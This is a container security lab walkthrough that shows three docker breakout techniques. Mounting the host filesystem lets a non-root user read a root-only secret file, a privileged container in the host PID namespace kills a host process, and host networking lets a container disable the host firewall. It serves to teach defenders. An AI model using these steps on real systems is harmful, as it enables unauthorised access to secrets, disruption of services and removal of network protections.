 ## Container Breakout - Multiple Attacks

### Volume Mounts

* ssh into the container virtual lab or open Terminal in the VM

    ```
    ssh root@<IPAddrGivenToYou>
    password: <passwordGivenToYou>

    ```

* Run `whoami` to confirm that you are the `root` user.

```commandline
root@we45:~# whoami
root
root@we45:~#
```

* Validate that there's a secrets file in the root dir with `cat secret.txt`

* Run `sudo su we45` to login as a normal user.

    ```commandline
    root@we45:~# sudo su we45
    we45@we45:~$
    ```

* Check if the user `we45` has access to `docker` by running `docker images` and `docker ps`

    ```commandline
    we45@we45:~$ docker images
    we45@we45:~$ docker ps
    ```

* Run `cat /root/secret.txt` read the content of `secret.txt` file that was created by `root` user.

```commandline
we45@we45:~$ cat /root/secret.txt
cat: /root/secret.txt: Permission denied
```

* Run `docker run -ti --rm -v /root:/hostFS/ alpine sh` as `we45`(non-root user)

```commandline
we45@we45:~$ docker run -ti -v /:/hostFS/ alpine
/ #
```

* Run `cat /hostFS/root/secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat /hostFS/root/secret.txt
This is a secret
```

* Run `exit` to exit from the container.

```commandline
/hostFS/root # exit
we45@we45:~$
```

* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```

### PID Boundary

* Run `tmux` to create a multiplexed terminal. Your screen should have a band below that looks like this:

![](img/tmux-greenband.png)

* Now, type `ctrl + b + "` to split panes horizontally. We're going to operate on two panes

![](img/split_pane.png)

* Let's first operate on the top pane, with the command `ctrl + b + (upper arrow key)`
* Let's first create our "super important process" with the following commands: 
    ```
    command='while true\ndo\necho "Super important process running $$"\nsleep 3\ndone'
    printf "$command" > /root/super_important_process.sh && chmod +x /root/super_important_process.sh
    ```

* Now, run our program `./root/super_important_process.sh`. It should start running a "super important" process
* Let's operate on the lower pane with `ctrl + b + (lower arrow key)`
* Here, run `docker run -ti --pid=host --privileged alpine sh`
* Now run `ps aux` and look at the process tree. You will see that your container's processes and the host's processes have NOT been isolated
* Now run `ps aux | grep 'super'` to triangulate the super_important process. get the `pid` of the process
* now run `kill <pid>` and you will see that the super important process (running on host) is now terminated.

![](img/terminate_process.png)

* Let's dismantle the multiplexed terminal session, with `ctrl + b + x`, you will be presented with a prompt like this:

![](img/remove_tmux.png)

* press `y` to select `yes` and the window shuts down. Do the same with the other tmux session as well

### Host Network

* Check if `ufw` is enabled on the host machine by running `ufw status`

```commandline
root@we45:~# ufw status
Status: inactive
```

* Enable `ufw` by running `ufw enable` and `ufw allow ssh`

* Run `docker run -d -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask`

```
docker run -d -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask
WARNING: Published ports are discarded when using host network mode
de08041d12e0ed8f4aa0ee3ceeef65c760baee2b9d1c839a89d5ba642a506d03
```

* Now run `docker ps` and copy the `CONTAINER_ID` of the running container

```
[root@container-training-centos ~]# docker ps
CONTAINER ID        IMAGE                    COMMAND             CREATED             STATUS              PORTS               NAMES
de08041d12e0        abhaybhargav/vul_flask   "python app.py"     3 seconds ago       Up 2 seconds                            dreamy_ptolemy
```

* Now run `docker exec -it <container ID> /bin/bash` you should now be in the shell environment in the container

* Run `apt update && apt install -y ufw` to install the firewall program

* Run `ufw status` and you should see that the firewall is active.

* Now run `ufw disable` to disable the firewall from the Container

* Run `exit` to exit the docker shell and run `clean-docker`